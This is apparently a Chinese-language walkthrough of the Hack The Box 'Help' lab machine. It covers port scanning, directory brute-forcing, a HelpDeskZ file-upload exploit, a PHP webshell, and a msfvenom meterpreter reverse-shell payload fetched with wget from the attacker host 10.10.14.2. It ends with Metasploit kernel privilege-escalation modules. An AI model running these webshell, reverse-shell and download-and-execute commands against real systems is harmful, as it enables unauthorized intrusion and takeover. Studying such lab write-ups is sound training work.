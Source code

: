 ```yaml
---
title: Help(File upload)
categories:
- vuln service
tags:
- training
---
```

10.10.10.121
```
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## 80

访问10.10.10.121:80，Apache/2.4.18 (Ubuntu) ，默认配置页面

```
gobuster -u http://10.10.10.121:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

http://10.10.10.121/support/
页面上的登陆表单，有csrf参数，不允许爆破弱口令

换一个字典
apache-user-enum-1.0.txt
gobuster -u http://10.10.10.121:80 -w /usr/share/wordlists/dirbuster/apache-user-enum-1.0.txt
```
#### 目录扫描
- gobuster -u http://10.10.10.121:80/support/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
/uploads (Status: 301)
/css (Status: 301)
/includes (Status: 301)
存在上传目录，302跳转到apache默认配置页面
```
- gobuster -u http://10.10.10.121/support/uploads -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
/articles (Status: 301)
/tickets (Status: 301)
```
- gobuster -u http://10.10.10.121/support/uploads/tickets -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

#### exp尝试
- searchsploit help deskZ

```
HelpDeskZ <= v1.0.2 - Unauthenticated Shell Upload
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download

searchsploit -m exploits/php/webapps/40300.py
python 40300.py  http://10.10.10.121:80/support/ ports.txt
失败
---
python 40300.py http://10.10.10.121/support/uploads/tickets whale.php

连接错误
requests.exceptions.ConnectionError: HTTPConnectionPool(host='10.10.10.121', port=80): Max retries exceeded with url: /support/uploads/tickets/1cd2ed348346b00c48d3f78579d6431d.php (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7f0def11a290>: Failed to establish a new connection: [Errno 110] Connection timed out',))
---
searchsploit -m exploits/php/webapps/41200.py
需要一个可以登陆的口令
```
- 尝试文件上传

`http://10.10.10.121/support/?v=submit_ticket&action=displayForm`

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/5.PNG)

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/6.PNG)

- 尝试github的exp

```
wget https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit

python exploit

python exploit http://10.10.10.121/support/uploads/tickets whale.php
```

[https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit](https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit)


观察exp，是通过时间推算出上传的php脚本的名称，然后组合baseurl，查看状态码是否是200。

如果是200，说明上传成功。

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/2.PNG)

首先上传一个php脚本，上传地址参考上述步骤“尝试文件上传”,内容为`<?php echo(system($_GET["cmd"])); ?>`

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/1.PNG)

成功上传webshell

## 3000 port

```
10.10.10.121:3000
{"message":"Hi Shiv, To get access please find the credentials with given query"}

X-Powered-By: Express

searchsploit Express
searchsploit Node.js

nikto -h http://10.10.10.121:3000 > nikto.txt

gobuster -u http://10.10.10.121:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
结果，没有发现任何存在目录
```

## 提权

#### 信息搜集

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/3.PNG)

```
cmd=uname+-a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
64位linux，ubuntu

pwd
/var/www/html/support/uploads/tickets

cmd=cat+/home/help/user.txt
```

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/4.PNG)

获得help用户的webshell，如果不会这一步，参考https://whale3070.github.io/tag/#/command%20execution

---
查看内核版本后，searchsploit linux 4.4.0，根据结果，值得尝试msf suggester。

生成64位msf回连载荷，上传

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=6678 -f elf -o payload.elf
python -m SimpleHTTPServer 8001
```

攻击机webshell:

```
wget http://10.10.14.2:8001/payload.elf -P /tmp
chmod +x /tmp/payload.elf
```

本地监听：

```
msfconsole
handler -H 10.10.14.2 -P 6678 -p linux/x64/meterpreter_reverse_tcp
```

攻击机webshell:	`./payload.elf`

本地监听，成功回连msf payload:

```
use post/multi/recon/local_exploit_suggester
set SESSION 2

[+] 10.10.10.121 - exploit/linux/local/bpf_priv_esc: The target appears to be vulnerable.
[+] 10.10.10.121 - exploit/linux/local/bpf_sign_extension_priv_esc: The target appears to be vulnerable.
[+] 10.10.10.121 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.


use exploit/linux/local/bpf_priv_esc
set SESSION 2
set LHOST 10.10.14.2
set LPORT 6679
show options
run
失败

---
use exploit/linux/local/bpf_sign_extension_priv_esc
set payload linux/x64/meterpreter_reverse_tcp
set LHOST 10.10.14.2
set LPORT 6679
set SESSION 2
show options
run
```
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/7.PNG)

